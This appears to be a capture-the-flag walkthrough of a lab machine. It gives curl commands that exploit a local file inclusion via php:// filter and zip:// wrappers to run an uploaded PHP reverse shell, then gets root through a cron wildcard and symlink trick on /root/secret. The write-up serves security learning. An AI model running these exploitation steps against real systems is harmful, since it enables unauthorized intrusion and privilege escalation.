


There could be a possibility of LFI.

```
curl http://192.168.182.229/index.php?file=php://filter/read=convert.base64-encode/resource=home --path-as-is
```

We get home.html
```
curl http://192.168.182.229/index.php?file=php://filter/read=convert.base64-encode/resource=home --path-as-is | base64 -d > home.html
```
There seems to be .php added to the end

We can also get upload.php the same way:
```
curl http://192.168.182.229/index.php?file=php://filter/read=convert.base64-encode/resource=upload --path-as-is | base64 -d > upload.php
```


We can upload our reverse shell:

We get click here to download the file:

We get the name of the file. This zip will have our payload.php file.
```
curl http://192.168.182.229/index.php?file=zip://uploads/upload_1723720412.zip%23payload
```
We don't mention .php here because it seems `.php` is appended to the filename.

To get  a shell:


Running linpeas.sh:

We find root running a cron job.


We can do a wildcard spare trick:
Then we can use this to our advantage:
```
cd /var/www/html/uploads
touch @root.zip
ln -s /root/secret root.zip
```
Already enox.zip was present and linked to /root/secret so the password was already present:

We have the secret.
Using the password:

We are root